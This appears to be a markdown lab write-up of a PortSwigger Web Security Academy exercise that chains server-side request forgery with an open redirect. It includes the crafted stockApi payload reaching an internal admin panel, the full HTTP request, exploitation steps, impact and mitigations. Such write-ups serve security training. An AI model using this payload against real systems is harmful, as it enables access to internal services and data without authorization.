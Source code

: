 # 📘 Scenario 5: SSRF Chained with Open Redirect

## 🔎 Vulnerability Description

In this scenario, the application has a basic SSRF prevention mechanism in place — it **only allows internal requests if the URL is from a trusted domain**. However, the application also suffers from an **open redirect vulnerability** that can be chained with SSRF to bypass this check.

By crafting a malicious URL that **redirects internally**, the attacker tricks the server into sending requests to **unauthorized internal resources**.

> **Vulnerability Type:** SSRF via Redirection  
> **Combined with:** Open Redirect  
> **OWASP Top 10 ID:** A10:2021 – SSRF  
> **Risk Level:** High (chainable exploit)

---

## 🔧 Target

**SSRF Endpoint:**

🔗 https://0a39009b0419957b806558b700f70007.web-security-academy.net/product/stock \
🔗 https://0a39009b0419957b806558b700f70007.web-security-academy.net/product/nextProduct?currentProductId=1&path=[payload]

---
## 🧠 Exploitation Logic

1. SSRF filter allows requests only to trusted domain: `web-security-academy.net`.
2. Open redirect vulnerability lets attacker redirect from `web-security-academy.net` to an **internal host**.
3. Chain both to access internal resource indirectly.

---

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0a39009b0419957b806558b700f70007.web-security-academy.net
Cookie: session=yVrzyNrEbsIirT0y0xGvL2u6X8R0nwjM
Content-Length: 86
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a39009b0419957b806558b700f70007.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a39009b0419957b806558b700f70007.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
 
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3177

```
---

## 🧪 Exploitation Steps

Confirm that `stockApi=http://192.168.0.12/` is blocked.

Test the redirect endpoint:

``` 
https://0a39009b0419957b806558b700f70007.web-security-academy.net/product/nextProduct?currentProductId=1&path=http://192.168.0.12/admin 
```
Use that redirect URL as input to `stockApi` parameter.

Send the full chained request and observe the server’s response.

## 💥 Potential Impact

- **Bypasses SSRF protections** based on trusted hostname checks.

- Access to **internal admin panels**, cloud metadata, or service dashboards.

- May lead to **privilege escalation**, **sensitive data leakage**, or **RCE** in chained attacks.

- **Precursor to RCE or lateral movement**.

## ✅ Mitigation Suggestions
- Disallow redirects to non-whitelisted domains or IPs.

- Prevent open redirects altogether by validating `path` parameters strictly.

- Resolve final redirect destination before sending any request.

- Use SSRF-aware request wrappers that don't follow redirects by default.

## 📸 Screenshot

![Exploitation Image Of Scenario 5.1](https://github.com/hovikhanh/ssrf-demo/blob/main/images/Picture5.1.png "Exploitation Image Of Scenario 5.1")

![Exploitation Image Of Scenario 5.2](https://github.com/hovikhanh/ssrf-demo/blob/main/images/Picture5.2.png "Exploitation Image Of Scenario 5.2")

## 🔗 References

[PortSwigger – SSRF via Open Redirect](https://portswigger.net/web-security/ssrf)

[OWASP Open Redirect Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Open_Redirect_Prevention_Cheat_Sheet.html)

> ⚠️ This is a chained attack that requires exploiting two flaws. It demonstrates why single-point protections (like hostname checks) are insufficient in real-world web applications.